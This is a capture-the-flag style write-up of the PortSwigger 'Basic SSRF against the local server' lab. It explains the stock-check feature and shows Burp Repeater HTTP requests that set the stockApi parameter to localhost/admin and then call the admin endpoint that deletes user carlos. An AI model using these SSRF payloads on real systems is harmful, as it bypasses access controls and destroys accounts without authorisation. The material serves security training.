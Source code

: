 # [Lab: Basic SSRF against the local server](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost)

## Lab

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`.

## Analysis

a shopping application that lets the user view whether an item is in stock in a particular store. To provide the stock information, the application must query various back-end REST APIs, dependent on the product and store in question. The function is implemented by passing the URL to the relevant back-end API endpoint via a front-end HTTP request. So when a user views the stock status for an item, their browser makes a request like this:

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```

This causes the server to make a request to the specified URL, retrieve the stock status, and return this to the user.

In this situation, an attacker can modify the request to specify a URL local to the server itself. For example:

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin
```

Here, the server will fetch the contents of the `/admin` URL and return it to the user.

Now of course, the attacker could just visit the `/admin` URL directly. But the administrative functionality is ordinarily accessible only to suitable authenticated users. So an attacker who simply visits the URL directly won't see anything of interest. However, when the request to the `/admin` URL comes from the local machine itself, the normal access controls are bypassed. The application grants full access to the administrative functionality, because the request appears to originate from a trusted location.

## Exploit

1. burp's repeater:

    - original:

        ```http
        POST /product/stock HTTP/1.1
        Host: 0a63002b0443cd0cc3510b50006c0059.web-security-academy.net
        ...

        stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D2 
        ```

    - modified:

        ```http
        POST /product/stock HTTP/1.1
        Host: 0a63002b0443cd0cc3510b50006c0059.web-security-academy.net
        ...

        stockApi=http%3a//localhost/admin
        ```

    - result:

        ![admin-panel](./../img/lab-1-admin-panel.png)

2. solve lab:

    ```http
    POST /product/stock HTTP/1.1
    Host: 0a63002b0443cd0cc3510b50006c0059.web-security-academy.net
    ...

    stockApi=http%3a//localhost/admin/delete?username=carlos
    ```
